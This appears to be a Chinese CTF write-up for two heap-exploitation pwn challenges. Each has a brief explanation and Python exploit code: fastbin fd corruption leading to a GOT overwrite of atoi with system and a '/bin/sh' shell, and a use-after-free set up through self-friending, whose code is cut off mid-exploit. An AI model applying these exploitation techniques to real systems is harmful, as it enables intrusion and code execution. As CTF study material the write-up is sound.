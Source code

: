 ## pesp

编辑时新的 size 并没有作检查，导致可以堆溢出。利用堆溢出修改空闲 fast chunk 的 `fd`，手动造成 uaf，借助假的 `0x7f` 伪造 chunk 分配到 `itemlist` 上方从而修改 `itemlist` 中的内容指针达到任意地址写，泄露 libc 后覆盖 `atoi` 为 `system`。

```python
fake = 0x6020ad
add(0x60)
add(0x60)
free(1)

edit(0,0x100,flat('a'*0x60,0,0x71,fake))
add(0x60) # 1
add(0x60, flat('a'*3, 0x100, elf.got['atoi']))
show()
ru(':')
atoi = uu64(r(6))
base,libc,system = leak_libc('atoi',atoi,libc)
edit(0,0x8,p64(system))
sla(':', '/bin/sh\x00')
```


## semifinal_pwn1

本题功能比较复杂，关键在于自己可以添加自己为好友，然后删除自己时就可以释放内存。而每个用户都会分配一块 0x130 的 chunk，释放后进入 unsorted bin。随后就可以利用 uaf 泄露 libc 并借助 `update` 功能覆盖 got 表。

```python
def reg(size,name):
	sla('choice:',2)
	sla(':',size)
	sla(':',name)
	sla(':',20)
	sla(':','desc')

def login(name):
	sla('choice:',1)
	sla(':',name)

def logout():
	sla('choice:',6)

def add_free(name,choice):
	sla('choice:',3)
	sla(':',name)
	sla('(a/d)', choice)

def view_profile():
	sla('choice:',1)

def edit(name):
	sla('choice:',2)
	sa(':', name)
	sla(':',20)
	sla(':','desc')

reg(8,'a'*6)
reg(8,'b'*6)
login('b'*6)
add_free('b'*6,'a')
add_free('b'*6,'d')

view_profile()
ru('Age:')
```